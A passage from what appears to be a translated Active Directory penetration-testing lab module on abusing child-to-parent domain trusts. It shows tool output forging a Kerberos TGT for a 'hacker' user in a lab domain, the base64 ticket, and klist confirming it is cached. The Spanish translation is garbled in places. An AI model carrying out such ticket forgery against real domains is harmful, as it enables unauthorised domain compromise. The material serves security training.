```powershell-session
[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'hacker@LOGISTICS.INLANEFREIGHT.LOCAL'

[*] AuthTime       : 3/29/2022 10:06:41 AM
[*] StartTime      : 3/29/2022 10:06:41 AM
[*] EndTime        : 3/29/2022 8:06:41 PM
[*] RenewTill      : 4/5/2022 10:06:41 AM

[*] base64(ticket.kirbi):
      doIF0zCCBc+gAwIBBaEDAgEWooIEnDCCBJhhggSUMIIEkKADAgEFoR8bHUxPR0lTVElDUy5JTkxBTkVG
      UkVJR0hULkxPQ0FMojIwMKADAgECoSkwJxsGa3JidGd0Gx1MT0dJU1RJQ1MuSU5MQU5FRlJFSUdIVC5M
      T0NBTKOCBDIwggQuoAMCARehAwIBA6KCBCAEggQc0u5onpWKAP0Hw0KJuEOAFp8OgfBXlkwH3sXu5BhH
      T3zO/Ykw2Hkq2wsoODrBj0VfvxDNNpvysToaQdjHIqIqVQ9kXfNHM7bsQezS7L1KSx++2iX94uRrwa/S
      VfgHhAuxKPlIi2phwjkxYETluKl26AUo2+WwxDXmXwGJ6LLWN1W4YGScgXAX+Kgs9xrAqJMabsAQqDfy
      k7+0EH9SbmdQYqvAPrBqYEnt0mIPM9cakei5ZS1qfUDWjUN4mxsqINm7qNQcZHWN8kFSfAbqyD/OZIMc
      g78hZ8IYL+Y4LPEpiQzM8JsXqUdQtiJXM3Eig6RulSxCo9rc5YUWTaHx/i3PfWqP+dNREtldE2sgIUQm
      9f3cO1aOCt517Mmo7lICBFXUTQJvfGFtYdc01fWLoN45AtdpJro81GwihIFMcp/vmPBlqQGxAtRKzgzY
      acuk8YYogiP6815+x4vSZEL2JOJyLXSW0OPhguYSqAIEQshOkBm2p2jahQWYvCPPDd/EFM7S3NdMnJOz
      X3P7ObzVTAPQ/o9lSaXlopQH6L46z6PTcC/4GwaRbqVnm1RU0O3VpVr5bgaR+Nas5VYGBYIHOw3Qx5YT
      3dtLvCxNa3cEgllr9N0BjCl1iQGWyFo72JYI9JLV0VAjnyRxFqHztiSctDExnwqWiyDaGET31PRdEz+H
      WlAi4Y56GaDPrSZFS1RHofKqehMQD6gNrIxWPHdS9aiMAnhQth8GKbLqimcVrCUG+eghE+CN999gHNMG
      Be1Vnz8Oc3DIM9FNLFVZiqJrAvsq2paakZnjf5HXOZ6EdqWkwiWpbGXv4qyuZ8jnUyHxavOOPDAHdVeo
      /RIfLx12GlLzN5y7132Rj4iZlkVgAyB6+PIpjuDLDSq6UJnHRkYlJ/3l5j0KxgjdZbwoFbC7p76IPC3B
      aY97mXatvMfrrc/Aw5JaIFSaOYQ8M/frCG738e90IK/2eTFZD9/kKXDgmwMowBEmT3IWj9lgOixNcNV/
      OPbuqR9QiT4psvzLGmd0jxu4JSm8Usw5iBiIuW/pwcHKFgL1hCBEtUkaWH24fuJuAIdei0r9DolImqC3
      sERVQ5VSc7u4oaAIyv7Acq+UrPMwnrkDrB6C7WBXiuoBAzPQULPTWih6LyAwenrpd0sOEOiPvh8NlvIH
      eOhKwWOY6GVpVWEShRLDl9/XLxdnRfnNZgn2SvHOAJfYbRgRHMWAfzA+2+xps6WS/NNf1vZtUV/KRLlW
      sL5v91jmzGiZQcENkLeozZ7kIsY/zadFqVnrnQqsd97qcLYktZ4yOYpxH43JYS2e+cXZ+NXLKxex37HQ
      F5aNP7EITdjQds0lbyb9K/iUY27iyw7dRVLz3y5Dic4S4+cvJBSz6Y1zJHpLkDfYVQbBUCfUps8ImJij
      Hf+jggEhMIIBHaADAgEAooIBFASCARB9ggEMMIIBCKCCAQQwggEAMIH9oBswGaADAgEXoRIEEBrCyB2T
      JTKolmppTTXOXQShHxsdTE9HSVNUSUNTLklOTEFORUZSRUlHSFQuTE9DQUyiEzARoAMCAQGhCjAIGwZo
      YWNrZXKjBwMFAEDgAACkERgPMjAyMjAzMjkxNzA2NDFapREYDzIwMjIwMzI5MTcwNjQxWqYRGA8yMDIy
      MDMzMDAzMDY0MVqnERgPMjAyMjA0MDUxNzA2NDFaqB8bHUxPR0lTVElDUy5JTkxBTkVGUkVJR0hULkxP
      Q0FMqTIwMKADAgECoSkwJxsGa3JidGd0Gx1MT0dJU1RJQ1MuSU5MQU5FRlJFSUdIVC5MT0NBTA==

[+] Ticket successfully imported!
```

Una vez más, podemos verificar que el boleto está en memoria usando el`klist`dominio.

#### Confirmar que el boleto está en memoria usando Klist

  Atacando los fideicomisos de dominio - Niño -> Fideicomisos de padres - Desde Windows

```powershell-session
PS C:\htb> klist

Current LogonId is 0:0xf6495

Cached Tickets: (1)

#0>	Client: hacker @ LOGISTICS.INLANEFREIGHT.LOCAL
	Server: krbtgt/LOGISTICS.INLANEFREIGHT.LOCAL @ LOGISTICS.INLANEFREIGHT.LOCAL
	KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
	Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent 
	Start Time: 3/29/2022 10:06:41 (local)
	End Time:   3/29/2022 20:06:41 (local)
	Renew Time: 4/5/2022 10:06:41 (local)
	Session Key Type: RSADSI RC4-HMAC(NT)
	Cache Flags: 0x1 -> PRIMARY 
	Kdc Called: 
```